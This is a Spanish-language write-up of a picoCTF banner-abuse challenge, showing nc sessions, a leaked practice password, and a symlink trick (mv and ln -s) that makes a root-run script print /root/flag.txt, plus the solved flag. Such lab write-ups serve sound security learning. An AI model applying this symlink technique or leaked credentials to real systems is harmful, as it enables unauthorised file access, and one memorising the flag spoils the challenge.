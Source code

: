 #notas_hacking #general_skills #examen


## Descripción

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 55777`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 52272`. From the above information abuse the machine and find the flag in the /root directory.

## Solución

Ingreso al servidor usando el comando `nc`: 
``` bash
──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 55777
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
Me doy cuenta enseguida que se nos da ahí mismo una contraseña, la información que describe que se filtra, por lo que la copeo.  
Ingreso al siguiente igual con el comando `nc`, me pide una contraseña, pruebo la que copié y es correcta. Respondo un par de preguntas que devuelve el servidor hasta que me deja entrar:
```bash
┌──(kali㉿kali)-[~]
└─$ nc tethys.picoctf.net 53404
*************************************
**************WELCOME****************
*************************************
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```
Hago un ls y encuentro una pista y el archivo del banner, pista clave. Intento moverme al directorio `root` y me es posible, donde de hecho encuentro el `script.py` y la bandera a la cual no puedo acceder por los permisos.
Al analizar el script me encuentro con que leerá el archivo banner, por lo que renombre el banner a banner_backup y también lo hago con la bandera a banner. 
Aquí entra una de las pistas clave del reto. 
```bash
mv banner banner_backup  
ln -s /root/flag.txt banner
```
Ahora mi banner ya no se llama así y lo reemplaza la bandera, que al momento ingresar de nuevo con `nc` en otra terminal se ejecuta el script e imprime el banner que ahora es la bandera y no el que renombrados, explotamos la vulnerabilidad para leerla sin los permisos.
`picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}`

## Notas adicionales

- Un banner en informática es el primer mensaje que un servidor te envía cuando te conectas. A menudo revela que software y versión está usando.


## Referencias

https://es.wikipedia.org/wiki/Enlace_simb%C3%B3lico